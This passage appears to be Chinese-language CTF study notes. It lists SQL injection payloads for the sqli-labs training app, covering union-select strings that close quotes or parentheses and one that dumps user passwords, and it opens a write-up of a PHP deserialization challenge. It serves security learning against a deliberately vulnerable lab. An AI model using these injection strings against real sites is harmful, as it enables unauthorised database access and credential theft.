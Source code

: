 ```
http://sqli-labs.bachang.org/Less-1/?id=-1' union select 1,2,group_concat(password) from users--+

------基于错误的GET整型注入------

# 和第一种一样，除了不用闭合外
http://127.0.0.1/sqli-labs/Less-3/?id=-1union select 1,2,3 --+

------基于错误的GET单引号变形字符型注入------

# 使用 ) 进行闭合，其余步骤和之前的一样
http://127.0.0.1/sqli-labs/Less-3/?id=-1') union select 1,2,3 --+

------基于错误的GET双引号字符型注入------

# 参数的前后加入了双引号，在前面的基础上进行下面的操作，闭合双引号
http://127.0.0.1/sqli-labs/Less-4/?id=-1") union select 1,2,3 --+

------双注入GET单引号字符型注入------

# 报错会有固定回显，可以考虑布尔型盲注、报错型注入、时间延迟型盲注，直接使用 sqlmap 即可

------堆叠注入------

# 堆叠注入即使用 ; 划分多个查询语句，同时执行，如果注入时发现 1 和 0 的回显不一样，则可能存在 || 的逻辑结构，
 


```

## [SWPUCTF 2021 新生赛]ez_unserialize

https://www.nssctf.cn/problem/426

* 考点：反序列化
* 工具：php

通过题目的提示从 robots.txt 找到入口，查看 php 源码，发现是一个反序列化的题目
